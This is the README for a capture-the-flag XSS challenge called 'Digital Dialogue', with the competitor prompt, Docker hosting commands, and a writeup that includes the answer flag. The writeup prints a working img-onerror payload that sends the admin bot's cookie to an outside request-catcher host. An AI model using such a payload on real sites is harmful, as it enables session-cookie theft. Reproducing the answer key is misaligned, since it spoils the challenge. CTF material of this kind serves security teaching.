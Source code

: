 # Digital Dialogue

## Description  
Give the following to competitors: 
```
Professor Yoda in your Lightsabers class (JEDI 301) has assigned you a digital dialogue! Your absolute favorite! However, Jar Jar coded the site so it's kinda wonky. What are the odds that they don't sanitize their inputs for JavaScript code?

The flag is the cookie for the admin bot. Good luck!

Flag format: byuctf{flaghere}
```

Also give competitors the URL for the python server, the URL for the admin bot, and `digital_dialogue.zip` found in this directory.

## Writeup
This is about the simplest XSS challenge that you'll ever come across. The presence of the admin bot should imply that. The website will run pretty much any JavaScript payload that you give to it. A payload such as `<img src="x" onerror="var myImage = new Image(100, 200); myImage.src = &quot;https://byuctf.requestcatcher.com/flag?cookie=&quot;+document.cookie;">` will send the flag to byuctf.requestcatcher.com. 

**Flag** - `byuctf{MAY_the_XSS_be_WITH_you}`

## Hosting
This challenge should be a Docker container that runs the Flask server `server.py` on port 1337, and the admin bot portal `admin_bot.js` on port 1338. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

```bash
docker build -t digital_dialogue .
docker network create -d bridge digital_dialogue
```

The command to start the challenge is:

```bash
docker run -p 1337:1234 -p 1338:2345 --detach --name digital_dialogue --network digital_dialogue digital_dialogue:latest
```

The command to stop the challenge is:

```bash
docker stop digital_dialogue
```